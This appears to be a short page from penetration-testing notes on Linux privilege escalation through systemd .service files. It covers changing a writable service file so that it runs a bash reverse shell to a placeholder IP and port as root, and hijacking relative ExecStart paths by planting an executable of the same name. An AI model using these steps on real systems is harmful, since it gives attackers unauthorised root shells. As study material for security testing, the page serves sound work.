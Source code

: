```yaml
---
title: .service File
parent: Method (Linux)
layout: default
nav_order: 10
---
```


.service file are executed as root, but you need to be able to restart the service or reboot the PC

## .service file writable
1. You can modify the .service file to execute your file, or to initiate reverse shell, for example changing the following (can also remove WorkingDirectory line):
   `ExecStart=bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'`
   `User=root`
2. Restart the service or the PC (check `sudo -l` to see if you can `sudo /sbin/reboot`)

## Relative PATH:
1. Check the system PATH using `systemctl show-environment`, need to make sure you have write access to any one of them.
2. Check the service configuration for any relative path, for example:
   `ExecStart=faraday-server`
   `ExecStart=/bin/sh -ec 'ifup --allow=hotplug %I; ifquery --state %I'`
3. You can then create a same name executable in the PATH you can write. (previous example, faraday-server)
4. Restart the service or the PC. (check `sudo -l` to see if you can `sudo /sbin/reboot`)